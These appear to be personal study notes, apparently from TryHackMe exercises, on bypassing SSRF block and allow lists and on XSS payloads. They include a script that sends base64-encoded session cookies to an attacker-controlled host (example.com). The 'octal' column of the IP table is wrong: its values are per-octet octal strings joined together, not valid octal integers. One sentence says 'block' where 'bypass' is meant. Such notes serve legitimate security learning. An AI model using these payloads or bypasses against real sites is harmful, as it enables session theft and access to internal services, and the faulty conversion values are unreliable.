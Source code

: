 * [Request Bin](https://requestbin.com/)

## Defeating Common SSRF Defenses

SSRF defenses are normally just a allowed/blocked lists.

Typically localhost and 169.254.169.254 (TryHackMe indicates that this IP often contains configuration information in cloud systems, though I’m not familiar with it) are often on block lists. This can be bypassed by using non-standard representations of IP addresses, or by using a service such as nip.io to map an arbitrary subdomain to an IP address of your choosing.

|              IP |    Decimal | Hexadecimal |            Octal |
| ---------------:| ----------:| -----------:| ----------------:|
| 127.0.0.1       | 2130706433 |  0x7F000001 | 0177000000000001 |
| 169.254.169.254 | 2852039166 |  0xA9FEA9FE | 0251037602510376 |

Allowed lists are harder to circumvent; often you’ll need to be able to create your own subdomains somewhere. The ngrok service can help tunnel these subdomains back to your local system, though the SSL certificate won’t match for non-ngrok subdomains (i.e., domains you entirely control).

If the server allows for open redirects, then this functionality can also be used to block domain-based allowed lists.

* [nip.io](https://nip.io/)
* [ngrok](https://ngrok.io/)

## SSRF Practical

Note that returned SSRF information may be in a variety of formats (for example, a base64-encoded image or cookie).

## XSS Payloads

Typical (but highly annoying) XSS PoC:

```html
<script>alert('XSS');</script>
```

Assuming you control the `example.com` domain, you can also log base64-encoded session cookies:

```html
<script>
	fetch(
		'https://example.com/log'
			+ '?cookie='
			+ btoa(document.cookie)
	);
</script>
```

Simple keylogger (seems best to combine with cookie stealing, since otherwise it may be hard to tell who’s typing what!):

